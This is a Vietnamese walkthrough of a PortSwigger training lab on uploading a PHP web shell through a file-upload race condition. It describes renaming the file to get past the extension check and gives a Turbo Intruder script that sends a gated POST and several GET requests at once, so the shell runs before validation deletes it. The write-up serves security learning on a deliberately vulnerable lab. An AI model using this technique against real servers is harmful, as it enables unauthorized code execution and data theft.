






# Lab: Web shell upload via race condition

**Link:** [https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)



## Giới thiệu

Race conditions trong khai thác lỗ hổng file upload là trường hợp xảy ra cho phép bạn có thể upload một file thông qua URL. Server sẽ fetch file của bạn và tạo một bản copy cục bộ trước khi nó bị xác thực.

Ngày nay, các hệ thống càng ngày càng thay đổi để có thể ngăn chặn các cuộc tấn công file upload. Họ sử dụng một nơi lưu trữ tạm thời để lưu trữ tệp, sau đó thay đổi tên ngẫu nhiên tên của tệp và bắt đầu xác thực nó. Tệp nào độc hại thì loại bỏ tệp nào ổn thì sẽ cho phép upload vào nơi lưu trữ gốc. Điều này dường như bất khả thi để dò ra nó tên gì để attacker thực thi nó nếu may mắn vượt qua vòng xác thực.

## Phân tích

Vỏ quýt dày có móng tay nhọn. Đó là câu mà ông cha ta đã dạy, để bypass cái cách này, ta có thể sử dụng trick để khiến cho quá trình chuyển đổi giữa các bước bị delay để RCE code có thể thực thi trên server.

Ta thực hiện các bước tương tự như các lab ở trên thì thấy hệ thống không cho phép ta upload 1.php lên:



Thử đổi file thành `hehe.php.png` và upload lên hệ thống thì có hệ thống đã cho phép tải RCE code lên nhưng dưới extension PNG :3



## Khai thác

Sau đó, sử dụng tiện ích [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) trong Burp Store để có thể intruder theo ý ta muốn.

Trong HTTP History, ta tìm kiếm request mà đã upload thành công hehe.php.png, sau đó chuột phải -> Extensions -> Turbo Intruders -> Send to Turbo Intruder:



Tiếp theo, ta sử dụng [đoạn code dưới đây](./race-condition/turbo-sample.py) và thay đổi `<YOUR-POST-REQUEST>` thành request POST đã gửi thành công file hehe.php.png, thay đổi `<YOUR-GET-REQUEST>` thành request đến `/files/avatars/hehe.php.png`. Đại loại thì đoạn code này sẽ giúp cho request của ta được tồn tại lâu hơn và tệp hehe.php (sau khi bỏ .png ở các request thay đổi) có thể thực thi trên server:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

**Lưu ý:** Khi đổi xong 2 phần trên, ta cần phải loại bỏ phần `.png` để có biến nó thành `.php` để nó có thể thực thi trên hệ thống.

Bây giờ, ta đã config xong xuôi thì bấm Attack và chờ đợi timeout 60s:



Ở các request, ta có thể tìm kiếm được bí mật của chú Carlos và submit thôi:


